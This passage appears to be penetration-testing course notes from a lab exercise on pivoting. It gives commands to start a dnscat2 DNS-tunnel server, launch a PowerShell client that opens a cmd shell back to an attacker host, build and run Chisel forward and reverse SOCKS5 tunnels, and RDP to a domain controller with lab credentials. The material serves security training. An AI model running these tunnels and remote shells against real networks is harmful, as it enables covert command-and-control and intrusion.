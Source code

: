 ```
```
### Starting the dnscat2 server
```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
### Cloning dnscat2-powershell to the Attack Host
```
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
Importing dnscat2.ps1
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
We must use the pre-shared secret (-PreSharedSecret) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

## SOCKS5 Tunneling with Chisel
### Setting up and using Chisel
```
git clone https://github.com/jpillora/chisel.git
cd chisel
go build
```
### Transferring Chisel Binary to Pivot Host
```
scp chisel ubuntu@10.129.202.64:~/
```
### Running the Chisel Server on the Pivot Host
```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
### Connecting to the Chisel Server
```
./chisel client -v 10.129.202.64:1234 socks
```
Edit and Configure proxychains.conf
### Pivoting to the DC
```
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Chisel Reverse Pivot
### Starting the Chisel Server on our Attack Host
```
sudo ./chisel server --reverse -v -p 1234 --socks5
```
### Connecting the Chisel Client to our Attack Host
```
./chisel client -v 10.10.14.17:1234 R:socks
```
Edit and configure proxychains.conf
